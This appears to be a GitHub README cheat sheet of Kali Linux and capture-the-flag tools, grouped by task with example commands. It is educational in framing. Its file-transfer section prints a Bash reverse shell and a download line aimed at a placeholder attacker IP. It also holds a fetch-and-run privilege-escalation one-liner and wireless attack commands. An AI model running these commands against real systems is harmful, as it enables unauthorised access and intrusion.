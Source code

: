 # CTF Tools and Commands

---

## 🔥 Kali Linux Tools and Commands

This repository contains a collection of useful tools and commands for Kali Linux, categorized based on their usage in penetration testing, cybersecurity, and ethical hacking.

---

## 📌 Table of Contents

1. [🐧 Basic Linux Commands](#-basic-linux-commands)
2. [🌍 Network Scanning & Enumeration](#-network-scanning--enumeration)
3. [🔓 Web Exploitation Tools](#-web-exploitation-tools)
4. [🕵️‍♂️ Forensics & Steganography](#-forensics--steganography)
5. [📡 Wireless Attacks](#-wireless-attacks)
6. [🎭 Privilege Escalation](#-privilege-escalation)
7. [📂 File Transfer & Reverse Shells](#-file-transfer--reverse-shells)
8. [🎯 Tool Downloads](#-tool-downloads)

---

## 🐧 Basic Linux Commands

These are fundamental Linux commands every Kali Linux user should know.

| Command | Description |
| ------- | -------------------------------- |
| `cd` | Change directory |
| `ls` | List files and directories |
| `pwd` | Print current working directory |
| `cp` | Copy files or directories |
| `mv` | Move or rename files and directories |
| `rm` | Remove files or directories |
| `cat` | View file content |
| `echo` | Print text to terminal or file |
| `chmod` | Change file permissions |
| `chown` | Change file ownership |
| `find` | Search for files and directories |
| `grep` | Search for patterns inside files |

---

## 🌍 Network Scanning & Enumeration

| Tool | Description | Command |
| --------------- | ------------------------------------------ | ------------------------- |
| **Nmap** | Network scanning & vulnerability detection | `nmap [options] [target]` |
| **Netcat** | Network debugging and port scanning | `nc -l -p [port]` |
| **Wireshark** | GUI-based network protocol analyzer | `wireshark` |
| **Tcpdump** | CLI-based network packet capture tool | `tcpdump -i eth0` |
| **Masscan** | Fast port scanner | `masscan -p1-65535 [target]` |

---

## 🔓 Web Exploitation Tools

| Tool | Description | Command |
| -------------- | -------------------------------- | ------------------------ |
| **Burp Suite** | Web security testing framework | `burpsuite` |
| **Nikto** | Web server vulnerability scanner | `nikto -h [target]` |
| **SQLmap** | Automated SQL injection tool | `sqlmap -u [target_url]` |
| **Gobuster** | Directory and file brute-forcing | `gobuster dir -u [URL]` |
| **WFUZZ** | Web application brute-forcing | `wfuzz -c -z file,wordlist.txt --hc 404 [URL]/FUZZ` |

---

## 🕵️‍♂️ Forensics & Steganography

| Tool | Description | Command |
| ------------ | -------------------------------------- | -------------------- |
| **Exiftool** | Extract metadata from images and files | `exiftool [file]` |
| **Binwalk** | Analyze and extract firmware images | `binwalk -e [file]` |
| **Foremost** | File recovery based on headers | `foremost -i [file]` |
| **Steghide** | Hide/extract data in images | `steghide embed -cf image.jpg -ef secret.txt` |
| **Aperisolve** | Online steganography analysis | [🔗 Visit](https://www.aperisolve.com/) |

---

## 📡 Wireless Attacks

| Tool | Description | Command |
| --------------- | ------------------------------------------ | -------------------------- |
| **Aircrack-ng** | Wireless security auditing | `airmon-ng start wlan0` |
| **Kismet** | Wireless network discovery | `kismet` |
| **Reaver** | WPS attack tool | `reaver -i wlan0 -b [BSSID] -vv` |
| **Fern Wifi Cracker** | GUI for wireless auditing | `fern-wifi-cracker` |

---

## 🎭 Privilege Escalation

| Tool | Description | Command |
| --------------- | ------------------------------------------ | -------------------------- |
| **LinPEAS** | Linux privilege escalation checker | `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh` |
| **Windows-Exploit-Suggester** | Windows privilege escalation tool | `python windows-exploit-suggester.py --update` |
| **GTFOBins** | Find binaries useful for privilege escalation | [🔗 Visit](https://gtfobins.github.io/) |

---

## 📂 File Transfer & Reverse Shells

| Command | Description |
| --------------- | ------------------------------------------ |
| `scp file user@host:/path/to/destination` | Securely copy files via SSH |
| `wget http://[attacker_ip]/file -O /tmp/file` | Download a file using wget |
| `nc -lvnp 4444` | Start a netcat listener |
| `bash -i >& /dev/tcp/[attacker_ip]/4444 0>&1` | Reverse shell via Bash |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell to an interactive TTY |

---

## 🎯 Tool Downloads

- **Nmap**: [Download](https://nmap.org/download.html)
- **Wireshark**: [Download](https://www.wireshark.org/download.html)
- **SQLmap**: [Download](https://github.com/sqlmapproject/sqlmap)
- **Steghide**: [Download](http://steghide.sourceforge.net/download.php)
- **Burp Suite**: [Download](https://portswigger.net/burp/communitydownload)

---

## 🤝 Contributing

If you want to contribute, feel free to open an issue or submit a pull request.

💌 Contact: [Your Email or GitHub Profile]

---

🚀 **Happy Hacking! Stay Ethical.** 🛡️

